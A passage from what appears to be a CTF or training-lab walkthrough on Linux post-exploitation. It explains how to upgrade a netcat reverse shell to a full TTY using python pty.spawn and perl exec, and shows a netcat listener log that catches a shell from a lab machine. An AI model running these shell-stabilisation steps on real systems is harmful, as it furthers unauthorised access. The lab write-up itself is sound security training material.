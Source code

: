 ```
$ whoami
manager



```

### Unit 1 - tty 


As you might have noticed, a netcat reverse shell is pretty useless and can be easily broken by simple mistakes.
In order to fix this, we need to get a 'normal' shell, aka tty (text terminal). 
Note: Mainly, we want to upgrade to tty because commands like su and sudo require a proper terminal to run.

One of the simplest methods for that would be to execute /bin/bash. In most cases, it's not that easy to do and it actually requires us to do some additional work.
Surprisingly enough, we can use python to execute /bin/bash and upgrade to tty:
python3 -c 'import pty; pty.spawn("/bin/bash")'

Generally speaking, you want to use an external tool to execute /bin/bash for you. While doing so, it is a good idea to try everything you know, starting from python, finishing with getting a binary on the target system. 
List of static binaries you can get on the system: github.com/andrew-d/static-binaries

Try experimenting with the netcat shell you obtained in the previous task and try different versions.
Read more about upgrading to TTY: blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys
Answer the questions below
How would you execute /bin/bash with perl?
Research! Maybe GTFOBins will give you an idea

*perl -e 'exec "/bin/bash";'*

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444        
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.107.52.
Ncat: Connection from 10.10.107.52:44644.
/bin/sh: 0: can't access tty; job control turned off
$ perl -e 'exec "/bin/bash";'
whoami
manager
bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
manager@py:~/Desktop$  

```

### Unit 1 - ssh 

